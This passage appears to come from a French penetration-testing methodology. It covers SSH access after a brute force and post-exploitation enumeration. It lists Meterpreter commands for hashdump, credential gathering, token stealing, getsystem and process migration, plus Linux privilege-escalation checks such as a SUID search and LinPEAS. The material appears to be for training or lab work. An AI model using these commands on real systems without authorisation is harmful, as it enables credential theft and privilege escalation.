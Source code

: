 #### Si SSH avec credentials faibles
```bash
# Après brute force réussi
ssh user@target
# Puis escalation de privilèges
```

---

## 🚀 Phase 5: Post-exploitation

### 5.1 Windows - Énumération post-compromise

#### Dans Meterpreter
```bash
# Informations de base
sysinfo
getuid
getprivs

# Dump credentials
hashdump
run post/windows/gather/credentials/windows_autologin

# Recherche d'escalation
run post/multi/recon/local_exploit_suggester

# Énumération utilisateurs
run post/windows/gather/enum_logged_on_users

# Processus pour migration
ps
migrate <pid_explorer>
```

#### Escalation de privilèges Windows
| Technique | Commande |
|-----------|----------|
| **Local exploit suggester** | `run post/multi/recon/local_exploit_suggester` |
| **Token stealing** | `steal_token <pid>` |
| **Getsystem** | `getsystem` |
| **Exploit local** | Selon suggestion (MS16-032, etc.) |

### 5.2 Linux - Énumération post-compromise

#### Énumération de base
```bash
# Informations système
uname -a
id
sudo -l

# Recherche SUID
find / -perm -4000 2>/dev/null

# LinPEAS si disponible
./linpeas.sh
```
